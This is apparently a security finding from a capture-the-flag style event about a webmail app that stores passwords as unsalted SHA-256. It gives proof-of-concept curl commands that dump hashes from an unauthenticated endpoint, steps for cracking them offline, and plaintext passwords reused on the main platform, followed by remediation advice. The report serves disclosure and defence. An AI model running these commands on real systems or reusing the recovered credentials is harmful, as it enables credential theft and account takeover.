



# Description

Use of unsalted SHA-256 for password storage (CWE-916 / CWE-759) on the TrackBox webmail.

The password storage mechanism presents two distinct weaknesses:

1. **Missing salt** — password hashes are generated without a unique random salt.
2. **Insufficient computational cost** — SHA-256 is a general-purpose cryptographic hash function and is not designed for secure password storage.

The hash is computed as `hashlib.sha256(password.encode()).hexdigest()` at signup (`tools/Webmail/src/Pages.py`, `API.py` `POST /api/users`), at password change and at login (`Backend.py` `check_connect()`).

These weaknesses reduce the protection of stored credentials in the event of unauthorised disclosure.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | `GET /api/users` (unauthenticated). | All password hashes dumped. |
| 2 | Group identical hashes. | Confirms no salt + reveals reuse clusters. |
| 3 | Crack offline (`hashcat -m 1400`) / direct SHA-256 lookup. | Plaintext passwords recovered. |

# PoC

**1. Pull every hash without authentication:**

```bash
curl -s http://webmail.<TARGET>/api/users | python3 -c "import sys,json;[print(u['password_hash']+':'+u['username']) for u in json.load(sys.stdin)['users']]" > hashes.txt
```

On a local deployment the webmail listens on port 8088: `curl -s http://localhost:8088/api/users` returns `200 OK` (`Content-Type: application/json`) with `{"count": N, "status": "success", "users": [{"password_hash": "...", "username": "admin@tbox.traced"}, ...]}` and no authentication.



**2. Identical hashes prove no salt** — 14 users share one hash, 23 share another (the 23-account cluster was observed on the event instance with player accounts; a freshly seeded instance has the 14-account cluster plus the unique `admin@tbox.traced` hash `74842c85…c47c`):

```
26c93e3b…516f  shared by 14 users (john.doe, jane.doe, bob.smith, …)
54de7f60…e345  shared by 23 users
```



Reproducible check: two new accounts created with the same password get byte-identical hashes, equal to the plain SHA-256 of the password:

```bash
for n in 1 2; do
  curl -s -X POST -H 'Content-Type: application/json' \
    -d '{"username":"salt_test'$n'","password":"Test123!"}' http://<TARGET>:8088/api/users
done
curl -s http://<TARGET>:8088/api/users | python3 -c "import sys,json;[print(u['password_hash'],u['username']) for u in json.load(sys.stdin)['users'] if 'salt_test' in u['username']]"
# 54de7f606f2523cba8efac173fab42fb7f59d56ceff974c8fdb7342cf2cfe345 salt_test1@tbox.traced
# 54de7f606f2523cba8efac173fab42fb7f59d56ceff974c8fdb7342cf2cfe345 salt_test2@tbox.traced
```

**3. Recover plaintext (fast, unsalted):**

```bash
echo -n "Tr@c3d!7BxN#m9Kw2YpL" | sha256sum   # → 26c93e3b…516f  (14 accounts)
echo -n "Test123!"            | sha256sum     # → 54de7f60…e345  (23 accounts)
echo -n 'X#9kLm$P2v@nQ8w!ZjRe' | sha256sum   # → 74842c85…c47c  (admin@tbox.traced)
```



The cracked webmail passwords are the same passwords used on the main V.R.C platform (lateral compromise): `johndoe` / `Tr@c3d!7BxN#m9Kw2YpL` and `admin` / `X#9kLm$P2v@nQ8w!ZjRe` both log in at `POST /account/login/` (HTTP 302 to `/account/process/`).

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | 37+ of 59 accounts crackable offline within minutes on the event instance; on a freshly seeded instance all 15 seeded hashes (14 shared + admin) map to known plaintexts. Reuse exposed. |
| Integrity | Bulk account takeover across webmail and the main platform. |
| Availability | None directly. |

Overall severity: **High** — chains with the unauthenticated `/api/users` exposure into a complete credential-harvesting pipeline.

# Remediation

1. **Replace unsalted SHA-256 with Argon2id** — add `argon2-cffi` to `tools/Webmail/src/requirements.txt` and replace the existing password hashing implementation with `argon2.PasswordHasher`. Use at least `memory_cost=19456`, `time_cost=2` and `parallelism=1`, with automatically generated unique random salts. Benchmark the parameters according to deployment requirements.
2. **Update password creation and verification** — use `PasswordHasher.hash()` for password storage, `verify()` for authentication and `check_needs_rehash()` to upgrade hashing parameters when necessary. Update registration, account provisioning and password reset functionality consistently.
3. **Update database storage** — ensure that the password hash field supports complete encoded Argon2id hashes, including the algorithm identifier, version, parameters and salt. Do not truncate stored hashes.
4. **Revoke compromised credentials** — enforce password resets for affected accounts, invalidate existing sessions and remove legacy SHA-256 password hashes. Require password replacement across affected services where credential reuse has occurred.
5. **Prevent password hash disclosure** — protect `GET /api/users` in `tools/Webmail/src/API.py` with appropriate authentication and authorisation. Remove `password_hash` from all API responses, regardless of the caller's privileges.
6. **Add regression tests** — verify Argon2id password storage, unique salt generation, password verification, hash parameter upgrades, legacy credential invalidation and the absence of password hashes in API responses.

# Author
CHILL HUNT
